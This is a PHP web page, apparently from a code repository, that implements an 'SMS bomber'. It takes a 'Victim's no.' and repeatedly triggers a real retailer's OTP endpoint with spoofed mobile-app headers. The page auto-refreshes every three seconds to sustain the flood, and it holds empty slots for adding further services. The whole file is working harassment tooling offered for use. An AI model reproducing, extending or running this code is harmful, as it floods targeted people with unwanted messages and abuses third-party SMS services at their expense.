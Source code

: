 # OTP-bomber-php-
<!DOCTYPE html><html><head><link href="https://stackpath.bootstrapcdn.com/font-awesome/4.7.0/css/font-awesome.min.css" rel="stylesheet" integrity="sha384-wvfXpqpZZVQGK6TAh5PVlGOfQNHSoD2xbE+QkPxCAFlNEevoEH3Sl0sibVcOQVnN" crossorigin="anonymous"><link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous"><link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css"><link href="https://fonts.googleapis.com/css2?family=Fredoka+One&family=Girassol&display=swap" rel="stylesheet"><link href="https://fonts.googleapis.com/css2?family=Baloo+Thambi+2&family=Josefin+Sans:ital,wght@1,500&display=swap" rel="stylesheet"><link href="https://fonts.googleapis.com/css2?family=Staatliches&display=swap" rel="stylesheet"><link href="https://fonts.googleapis.com/css2?family=Anton&display=swap" rel="stylesheet"><link href="https://fonts.googleapis.com/css2?family=Arimo:ital@1&display=swap" rel="stylesheet"><meta charset="utf-8"><meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no"><link href="https://fonts.googleapis.com/css2?family=Lato&display=swap" rel="stylesheet">
<style type="text/css">
*{padding:0px; margin:0px; }
</style><title>SMS  Tushar</title></head><body class="bg-info"><nav class="navbar sticky-top navbar-light" style="background-color: #707070;><div class="container-fluid"><a class="navbar-brand" href="/"><span class="text-danger" style="font-family: 'Staatliches', cursive;">~SMS Bomber CodeAx1~</span></a></div></nav><br><br><br><?php
error_reporting(0); /*it will not let you show errors*/

if(isset($_GET['submit'])){
 header('refresh: 3'); // comment this code, if not to refresh the page.
$gv=$_GET['gg'];
function RandomNumber($length){
$str="";
for($i=0;$i<$length;$i++){
$str.=mt_rand(0,9);}return $str;}
$f = array("sameer","suresh","chettiar","jatin","chauhan","agarwal","rahul","tanmay","tiwari","kunal","rasania","sunil","kumar","gaurav","arihant","jain","falguni","yashashree","arpi","arshish","gupta","tanmay","samtgr","kiyera","atul","abhay","chandra","shoibaakriti","aanchal","talreja","aatholiy","abhijeet","akkalwar","abhijeet","bajpai","abhijeetsh","abhirup","roy","abhishek","sumit","kapil","suman","rani","ramu","souvik","yogesh","umesh","sahadat","ankit","prasant","pravakar","sunil","sibaram");
$fname = $f[mt_rand(0,50)];
$no = rand(1,999);
function rando($length) {
$characters = '0123456789abcdefghijklmnopqrstuvwxyz';
$charactersLength = strlen($characters);
$randomString = '';
for($i = 0; $i < $length; $i++) {
$randomString .= $characters[rand(0, $charactersLength - 1)];}
return $randomString;}


// Y O U R   W O R K S   S T A R T   F R O M   H E R E


$digit_2 = RandomNumber(2);

$digit_5 = RandomNumber(7);

$first_name = $fname;

$mobile = $_REQUEST['mobile'];


$url1="https://api.nnnow.com/m/mobapi/otp/generateOtp/v1/flash";

// $url2="
// example2.com
// ";

// $url3="
// example3.com
// ";


$data1='{"mobileNumber":"'.$mobile.'"}';

// $data2='
// {"email":"dummy email","fb_id":"dummy id","invite_code":"XXXXXXX","mobile_number":"9988776655","name":"dummy name","password":"dummy123"}
// ';

// $data3='
// {"email":"dummy email","fb_id":"dummy id","invite_code":"XXXXXXX","mobile_number":"9988776655","name":"dummy name","password":"dummy123"}
// ';


$headers1[]='POST/m/mobapi/otp/generateOtp/v1/flash HTTP/1.1';
$headers1[]='package: com.nnnow.arvind';
$headers1[]='isTablet: false';
$headers1[]='appversion: 2.2.0';
$headers1[]='platform: android';
$headers1[]='correlationId: 11cd4a6d-de5b-439d-abbb-947b33f9f386';
$headers1[]='module: android';
$headers1[]='Content-Type: application/json; charset=UTF-8';
$headers1[]='Host: api.nnnow.com';
$headers1[]='Connection: Keep-Alive';
$headers1[]='Accept-Encoding: gzip';
$headers1[]='User-Agent: okhttp/3.12.1';
// $headers2[]='';
// $headers2[]='';
// $headers2[]='';
// $headers2[]='';
// $headers2[]='';
// $headers2[]='';

// $headers3[]='';
// $headers3[]='';
// $headers3[]='';
// $headers3[]='';
// $headers3[]='';
// $headers3[]='';



$udata1=str_replace("\n", "", $data1); $headers1[]='Content-length: '.strlen($udata1).''; $uurl1= str_replace("\n", "", $url1); $uheaders1=str_replace("\n", "", $headers1); $ch=curl_init();curl_setopt($ch, CURLOPT_URL,$uurl1);curl_setopt($ch, CURLOPT_HEADER,0);curl_setopt($ch, CURLOPT_HTTPHEADER,$uheaders1);curl_setopt($ch, CURLOPT_SSL_VERIFYHOST,0);curl_setopt($ch, CURLOPT_SSL_VERIFYPEER,0);curl_setopt($ch, CURLOPT_POST, 1);curl_setopt($ch, CURLOPT_POSTFIELDS,$udata1);curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);curl_setopt($ch, CURLOPT_FOLLOWLOCATION,0);$one=curl_exec($ch);json_encode($one);$json=json_decode($one,1);curl_close ($ch);curl_close ($ch);
$udata2=str_replace("\n", "", $data2); $headers2[]='Content-length: '.strlen($udata2).''; $uurl2= str_replace("\n", "", $url2); $uheaders2=str_replace("\n", "", $headers2); $ch=curl_init();curl_setopt($ch, CURLOPT_URL,$uurl2);curl_setopt($ch, CURLOPT_HEADER,0);curl_setopt($ch, CURLOPT_HTTPHEADER,$uheaders2);curl_setopt($ch, CURLOPT_SSL_VERIFYHOST,0);curl_setopt($ch, CURLOPT_SSL_VERIFYPEER,0);curl_setopt($ch, CURLOPT_POST, 1);curl_setopt($ch, CURLOPT_POSTFIELDS,$udata2);curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);curl_setopt($ch, CURLOPT_FOLLOWLOCATION,0);$two=curl_exec($ch);json_encode($two);$json=json_decode($two,1);curl_close ($ch);curl_close ($ch);
$udata3=str_replace("\n", "", $data3); $headers3[]='Content-length: '.strlen($udata3).''; $uurl3= str_replace("\n", "", $url3); $uheaders3=str_replace("\n", "", $headers3); $ch=curl_init();curl_setopt($ch, CURLOPT_URL,$uurl3);curl_setopt($ch, CURLOPT_HEADER,0);curl_setopt($ch, CURLOPT_HTTPHEADER,$uheaders3);curl_setopt($ch, CURLOPT_SSL_VERIFYHOST,0);curl_setopt($ch, CURLOPT_SSL_VERIFYPEER,0);curl_setopt($ch, CURLOPT_POST, 1);curl_setopt($ch, CURLOPT_POSTFIELDS,$udata3);curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);curl_setopt($ch, CURLOPT_FOLLOWLOCATION,0);$three=curl_exec($ch);json_encode($three);$json=json_decode($three,1);curl_close ($ch);curl_close ($ch);
if(strlen($mobile)==10){
$message = "SMS Bombing started on $mobile";
}else{$message = "Please Enter valid number";}

echo "<div class='container text-center my-4'><div style='background-color: #fff;'><br>
<h4 class='pb-2 text-info'>Message</h4><p class='text-danger font-weight-bold'> $message </p><br></div></div><br><br></div>";}if(!isset($_GET['submit'])){echo"
<div class='mx-3 bg-info'><br><div class= 'container my-3' style='background-color: #fff;'><br><br><form class='py-3 text-center' method='get' action=''><div class='input-group my-4'>
<div class='input-group my-4'><span class='input-group-text text-white bg-danger' id='inputGroup-sizing-default'>Victim's no.</span>
<input type='number' class='form-control' placeholder='mobile no' name = 'mobile' aria-label='Sizing example input' aria-describedby='inputGroup-sizing-default' required>
</div><input class='sbm btn font-weight-bold btn-info col-6 my-3 text-center' name='submit' type='submit' value='Bomb'></div>";
}?>
<br><hr>
<h1>Devloped by Tushar</h1>
<a href=""><button type="button" class="btn btn-outline-dark" target='*_blank'>Subscribe Youtube Channel</button></a>

